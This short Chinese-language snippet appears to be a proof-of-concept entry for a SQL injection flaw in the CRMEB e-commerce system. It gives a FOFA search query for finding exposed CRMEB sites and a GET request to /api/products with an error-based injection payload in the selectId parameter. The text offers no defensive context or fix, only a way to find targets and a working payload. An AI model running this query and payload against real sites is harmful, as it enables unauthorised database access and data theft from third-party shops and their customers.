 FOFA语法：

body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"

```yaml
GET /api/products?limit=20&priceOrder&salesOrder&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(1=1,md5(20240618))))0x7e),1) 
```

